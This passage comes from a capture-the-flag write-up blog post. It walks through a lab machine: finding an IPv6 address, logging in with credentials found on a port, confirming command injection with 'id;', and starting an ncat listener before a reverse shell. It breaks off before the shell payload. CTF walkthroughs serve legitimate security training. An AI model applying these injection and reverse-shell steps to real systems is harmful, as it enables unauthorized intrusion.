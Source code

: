 #                                                                                 #
#                   Author: Thanasis Tserpelis aka Trickster0                     #
#                                                                                 #
###################################################################################


[+] Snmpwalk found.
[+] Grabbing IPv6.
[+] Loopback -> 0000:0000:0000:0000:0000:0000:0000:0001
[+] Unique-Local -> dead:beef:0000:0000:0250:56ff:feb9:c793
[+] Link Local -> fe80:0000:0000:0000:0250:56ff:feb9:c793
root@kali:~# 
{% endhighlight %}

Now we found a Unique-Local address "dead:beef:0000:0000:0250:56ff:feb9:c793".<br>
Try to access with web browser.
![placeholder](https://inar1.github.io/public/images/2019-11-21/2019-11-20-16-27-19.png)

Then, login to the console with the following password found on port 3366.<br>
However, this does not work.
{% highlight shell %}
loki:trickeryanddeceit
{% endhighlight %}

After some trying common password combination, we can find out that the following credential works.
{% highlight shell %}
administrator:trickeryanddeceit
{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-11-21/2019-11-20-16-42-09.png)

If we put just like "id;", we can see that the command is executed.
![placeholder](https://inar1.github.io/public/images/2019-11-21/2019-11-20-16-48-42.png)

Next, launch a netcat listener with "ncat". This is because it has an option "-6" for IPv6.
{% highlight shell %}
root@kali:~# ncat -6 -lvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234

{% endhighlight %}

Then, try to invoke a reverse shell.<br>
We can use a python reverse shell from <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.<br>
<br>
At first, we have to figure out global IPv6 address of our host
{% highlight shell %}
root@kali:~#  ip a | grep inet6 | grep global
    inet6 dead:beef:2::100b/64 scope global 

root@kali:~#
{% endhighlight %}
